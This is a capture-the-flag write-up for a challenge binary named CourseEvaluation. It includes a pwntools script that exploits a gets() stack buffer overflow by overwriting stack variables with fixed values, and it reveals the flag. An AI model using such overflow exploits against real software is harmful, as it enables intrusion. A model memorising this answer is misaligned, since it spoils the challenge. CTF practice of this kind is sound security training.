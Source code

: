 # CourseEvaluation

### 📄 Description

Give us a good feedback and we might give you the flag!


### ⚙ How to use
```bash
./courseEval
```

### ⛔ Rules
- You cannot patch this binary.
- The challenge MUST BE SOLVED by providing an appropriate input.
- Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
- Do not modify the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 50 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./courseEval"
p = process()
p.sendline(b"A" * 56 + b"UniPD_01" + b"CPP-" + b"PWN-" + b"Pier")

log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))

```

<h3> 🚩 Flag </h3>

```plain
SPRITZ{CPP_PWNs_Everything_173453}
```
</details>
